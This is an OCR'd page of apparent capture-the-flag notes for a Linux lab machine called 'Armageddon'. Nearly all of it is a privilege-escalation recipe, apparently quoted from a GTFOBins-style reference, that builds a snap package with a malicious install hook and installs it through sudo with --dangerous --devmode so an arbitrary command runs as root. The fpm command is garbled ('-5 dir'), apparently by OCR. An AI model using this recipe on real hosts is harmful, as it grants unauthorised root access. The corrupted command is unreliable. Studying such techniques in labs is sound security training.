 ![](Maszyny/Linux/Armageddon/Pasted%20image%2020210731224129.png)

../snap
Sudo
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to
access the file system, escalate or maintain privileged access.
It runs commands using a specially crafted Snap package. Generate it with fpm and upload it to the target.
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -5 dir -t snap -a all meta
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
